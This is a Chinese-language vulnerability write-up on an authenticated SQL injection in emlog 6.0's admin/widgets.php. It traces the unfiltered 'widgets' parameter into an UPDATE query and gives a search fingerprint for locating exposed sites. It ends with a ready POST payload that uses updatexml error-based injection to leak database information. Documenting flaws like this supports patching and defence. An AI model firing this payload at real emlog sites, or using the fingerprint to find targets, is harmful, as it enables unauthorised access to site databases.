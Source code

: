 # emlog widgets.php 后台SQL注入漏洞

# emlog widgets.php 后台SQL注入漏洞

## 漏洞描述

emlog widgets.php文件在登录后通过构造特殊语句导致SQL注入，获取数据库敏感信息

## 漏洞影响

```
emlog 6.0
```

## 网络测绘

```
app="EMLOG"
```

## 漏洞复现

产品主页：https://github.com/emlog/emlog

![image-20220518160707766](/images/202205181607870.png)

存在漏洞的文件为 `admin/widgets.php`

![image-20220518160725472](/images/202205181607539.png)

```
if ($action == 'compages') {
    $wgNum = isset($_POST['wgnum']) ? intval($_POST['wgnum']) : 1;//侧边栏编号 1、2、3 ……
    $widgets = isset($_POST['widgets']) ? serialize($_POST['widgets']) : '';
    Option::updateOption("widgets{$wgNum}", $widgets);
    $CACHE->updateCache('options');
    emDirect("./widgets.php?activated=true&wg=$wgNum");
}
```

传参为 wgnum 和 widgets ，跟踪方法 `updateOption`

![image-20220518160743259](/images/202205181607343.png)

```
static function updateOption($name, $value, $isSyntax = false){
        $DB = Database::getInstance();
        $value = $isSyntax ? $value : "'$value'";
        $DB->query('UPDATE '.DB_PREFIX."options SET option_value=$value where option_name='$name'");
    }
```

可以发现对传入的参数木有进行过滤，构造Payload

```
POST /admin/widgets.php?action=compages

widgets=1' and updatexml(0x3a,concat(1,(select user())),1)-- 
```

调试后可以发现，数据库报错语句会回显至页面中，报错注入即可获取敏感信息

![image-20220518160810251](/images/202205181608308.png)

![image-20220518160826819](/images/202205181608878.png)

